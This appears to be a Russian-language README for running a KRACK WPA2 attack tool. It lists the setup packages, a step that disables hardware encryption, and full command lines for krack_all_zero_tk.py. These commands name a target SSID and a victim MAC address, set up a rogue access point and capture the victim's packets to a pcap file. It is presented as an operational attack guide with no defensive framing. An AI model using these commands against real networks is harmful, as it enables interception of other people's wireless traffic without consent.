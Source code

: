 Kraken WPA2 взлом

## Подготовка
* Тестер:
  * Ноутбук
  * Kali Linux 2018.4
  * 2 WIFI сетевые карты
  * 1 Ethernet сетевая карта или 4G - модем, или расшара интернета через мобильный интернет USB - Teathering
  
* Жертва (которая подключается к роутеру):
  * Ноутбук или Смартфон или Планшет с WIFI

* Роутер (точка доступа):

## Предустановка
Установить пакеты Kali Linux:
```
$sudo apt update
$sudo apt install dnsmasq libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
```
dnsmasq - обязательно установить, иначе интернет не будет работать у жертвы.

Устанавливаем следующие Python-пакеты
```
$pip install --user mitm_channel_based
```
Потом отключить аппаратное шифрование на WIFI у тестера **disable hardware encryption** через скрипт ./disable-hwcrypto.sh. Перезагрузиться (обязательно).
 
 ## Использование
 Запустить скрипт
 
 ```
 $sudo ./krackattack/krack_all_zero_tk.py wlan1 wlan0 usb0 "Familia Couto" 
 или можно еще добавить параметр MAC жертвы
 $sudo ./krackattack/krack_all_zero_tk.py wlan1 wlan0 usb0 "Familia Couto" -t 00:21:5d:ea:fe:be
 
 ```Обязательные параметры
 * `wlan1`: интерфейс, на котором слушаем и внедряем пакеты в реальный канал роутера
 * `wlan0`: интерфейс с поддельной базовой станцией
 * `usb0`: интерфейс с интернетом, может быть что угодно, Ethernet например
 * `"Familia Couto"`: SSID станции в роутере, которую подделываем

```Необязательные параметры 
 * `-t 00:21:5d:ea:fe:be`: MAC адрес жертвы
 * Другие настройки можно узнать так `./krackattack/krack_all_zero_tk.py -h`!
 
 **Внимание!**
 * Отключить Wi-Fi в диспетчере перед запуском скрипта!
 * После отключения Wi-Fi, запускаем команду: `$rfkill unblock wifi`!
 
 **Вывод**
 
 * `dnsmasq.conf`: конфигурация DHCP и DNS
 * `dnsmasq_log`: вывод dnsmasq
 * `hostapd_rogue.conf`: файл конфигурации поддельной базовой станции
 * `hostapd_rogue.log`: вывод поддельной базовой станции
 * `rogue_ap_capture.pcap`: файл с записанными пакетами, которые прослушиваются на интерфейсе поддельной базовой станции.
